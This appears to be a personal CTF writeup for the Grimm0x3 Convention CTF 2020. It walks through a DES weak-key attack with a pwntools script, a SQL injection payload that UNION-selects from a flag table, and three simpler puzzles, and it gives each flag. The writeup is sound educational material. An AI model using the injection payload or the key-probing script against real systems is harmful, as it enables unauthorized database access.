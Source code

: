 ```yaml
---
title: "Grimm0x3 Convention CTF 2020 Writeup"
date: 2020-12-30 00:05:00 -0800
categories: [CTF, writeup]
tags: [writeup, web, commandinjection, misc, linux, php, crypto]
toc: true
---
```


> 8 Hour CTF, placed 68th/1100 Registered Team Accounts.

## Odysseus - 500 Points 

> I already encrypted the flag once but two times can never hurt right? I'll let you send me another key to encrypt it with! (in hex)

Based on the description, this challenge requires a DES Weak Key Attack. Weak keys are keys that cause the encryption to act identically to the decryption mode.

I used the list of keys [found on this github repo](https://github.com/W3rni0/NahamCon_CTF_2020/blob/master/assets/files/keys). Simple pwntools script to get the flag:

```
from pwn import *

#nc challenge.ctf.games 32350

with open('keys') as my_file:
    keys_array = my_file.readlines()


for key in keys_array:
        conn = remote('challenge.ctf.games', 32350)
        conn.recvline()
        conn.send(key)
        try:
                hex_string = str(conn.recvline(), 'utf-8')[1:-1]
                bytes_object = bytes.fromhex(hex_string)
                ascii_string = bytes_object.decode("ASCII")
                print(ascii_string)
                if flag in ascii_string:
                        exit(1)
        except:
                pass
        conn.close()
```

> flag{9b9169ac15fe51e8f337bc2786e4fb36}

## Syringe (338 Points)

> Doctors love their databases! Here is a library of words and semantics relating to medical words, like "syringe", or "x-ray", or "injection". Find whatever you need, just by searching for it! 

Simple SQL Injection challenge. We are given the query:

```
SELECT * FROM semantics WHERE name LIKE "%<userinput>%"
```

We can do a simple injection:

```
garbage%" or name = "doctor" or name LIKE "%garbage%" UNION SELECT * FROM flag WHERE flag LIKE "%
```

and get the flag.

> flag{f2a5006b1b07cc08362772807322ef62}

## Hyperopia (272 Points)

> erything close up is blurry... can you please help me read this? 

You are given a blurry QR code. Using Gimp's Sharp Unmask tool with Radius 3 Amount 20 Threshhold 0, I was able to make the qrcode scannable.

> flag{3efd4bd34663e618c70e051505c83f9f}

## Triple (50 Points)

> I was studying something called ASCII armor because I wanted to become better at encoding. I was having fun until I realized I couldn't decode my message... 

I simply noticed the string encoded in base64 and decoded the string three times.

```
kali@kali:~/Desktop/ctf/grimcon0x3/desshit$ echo V20xNGFGb3pjM3BQVkd0M1RsZFJlVTFVVVRSYWFsSnRXa2RKTTFscVFYbE9WMDE1VFRKUk1rOUVVWGROUkU1cVdXNHdQUT09 | base64 -d | base64 -d | base64 -d
flag{39905d2148f4fdb7b025c23d684003cb}
```

> flag{39905d2148f4fdb7b025c23d684003cb}


## ZipZip (50 Points)

> My friend sent me this zip file... He is a prankster and compressed the file a LOT of times... I don't know how to make this go quickly and I don't have the time... At least he told me the password is "pass". Can you please help? 

There is a file zipped 50 times, each time with the word pass. I can use a bash script to unzip everything.

```
#!/bin/bash
for i in $(seq -f "%02g" 50 -1 0)
        do
                unzip -P pass $i.zip
                #i=$((i-1))
        done
cat flag.txt
```

> flag{cf97382071cb149aac8d6ab8baeaa3ee}


## Conclusion

I wish the CTF was longer than 8 hours (and I wish that I had actual teammates as well). The challenges were good and creative, I just did not have the time to solve a lot of things.
